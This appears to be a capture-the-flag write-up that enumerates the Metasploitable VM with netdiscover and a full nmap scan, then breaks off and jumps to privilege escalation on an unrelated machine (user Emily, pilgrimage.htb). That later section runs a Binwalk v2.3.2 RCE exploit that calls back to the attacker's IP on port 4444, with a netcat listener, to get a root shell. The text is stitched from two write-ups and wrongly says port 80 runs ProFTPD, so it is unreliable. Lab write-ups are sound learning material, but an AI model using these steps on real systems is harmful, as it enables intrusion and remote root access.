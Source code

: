 # Metasploitable

[Download Link](https://www.vulnhub.com/entry/metasploitable-1,28/)

## Host Discovery

To check the IP of the metasploitable machine running as a VM all we have do is makle sure both our attack machine and the metasploit VM are on the same network (regardless if attack machine is the host machine).

Then we can simply run the `netdiscover` command to find the IP.

![image](https://github.com/vsang181/Metasploitable/assets/28651683/d71e86e7-d227-4a5d-88ec-a03d363cb69c)

## Enumeration

### Initial Nmap Scan
Lets start with an initial Nmap scan to scan of all open ports and the services running on those ports.

```
nmap -sCV -p- -O 192.168.75.129
```
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-27 05:39 GMT
Nmap scan report for 192.168.75.129
Host is up (0.00054s latency).
Not shown: 65522 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.1
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
|_ssl-date: 2024-01-27T05:39:43+00:00; 0s from scanner time.
|_smtp-commands: metasploitable.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2010-03-17T14:07:45
|_Not valid after:  2010-04-16T14:07:45
53/tcp   open  domain      ISC BIND 9.4.2
| dns-nsid: 
|_  bind.version: 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.10 with Suhosin-Patch)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.10 with Suhosin-Patch
| http-methods: 
|_  Potentially risky methods: TRACE
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
| mysql-info: 
|   Protocol: 10
|   Version: 5.0.51a-3ubuntu5
|   Thread ID: 18
|   Capabilities flags: 43564
|   Some Capabilities: ConnectWithDatabase, Speaks41ProtocolNew, SupportsCompression, SupportsTransactions, SwitchToSSLAfterHandshake, Support41Auth, LongColumnFlag
|   Status: Autocommit
|_  Salt: ,IhQ;tX9V$PGTNlT?}yh
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
|_ssl-date: 2024-01-27T05:39:43+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2010-03-17T14:07:45
|_Not valid after:  2010-04-16T14:07:45
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/5.5
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
MAC Address: 00:0C:29:44:35:DD (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: Host:  metasploitable.localdomain; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: metasploitable
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: metasploitable.localdomain
|_  System time: 2024-01-27T00:39:32-05:00
|_nbstat: NetBIOS name: METASPLOITABLE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: 1h15m00s, deviation: 2h30m00s, median: 0s

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.27 seconds
```

The scan resulted in showing multple ports open 21, 22 ,23, 25, 53, 80, 139, 445, 3306, 5432, 8009 and 8180.

### Exploring Port 80 

As shown in the results the port 80 is running FTP service with service version as "ProFTPD 1.3.1".

A quick google search reveals a sql injection vulnerability.

[ProFTPd 1.3 - 'mod_sql' 'Username' SQL Injection](https://www.exploit-db.com/exploits/32798)




















## Privilege Escalation

An initial attempt to run 'sudo -l' to list Emily's sudo privileges was unsuccessful.

By running the linpeas.sh script, we discovered a process located at /usr/sbin/malwarescan.sh. As user Emily, we have read permissions for this process.

The content of the script revealed the following details:

![image](https://github.com/vsang181/Hackthebox/assets/28651683/d0188909-07c1-4fc7-9dc9-6e6cd3c3d177)

The bash script was designed to monitor a specific directory (/var/www/pilgrimage.htb/shrunk/) for the creation of new files, employing the 'inotifywait' command for this purpose.

The script has a blacklist, an array of string patterns ("`Executable script`" and "`Microsoft executable`"). If the output of the `binwalk` command (stored in the `binout` variable) contains any of the blacklisted string patterns, the script removes the file.

A check on the 'binwalk' version revealed it to be Binwalk v2.3.2.

A quick Google search for known exploits against this version of binwalk unveiled a Remote Command Execution (RCE) vulnerability.

[Binwalk v2.3.2 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/51249)

With this identified vulnerability, we had the potential to remotely execute code as root within the system.

The exploit code was saved into a file, named, for instance, 'exploit.py'.

The exploit was launched using the following command:

```
python3 exploit.py /path/to/input.png your.ip.address.here 4444
```

This operation created a png file ready to be uploaded and subsequently executed by 'binwalk', as identified earlier in the 'malwarescan.sh' script.

Concurrently, we started listening on the specified port via 'netcat'.

An HTTP server was then started, and while still in SSH, the 'wget' command was used to retrieve the file into the specified folder.

This process ultimately resulted in gaining a root shell, enabling access to the coveted root flag.
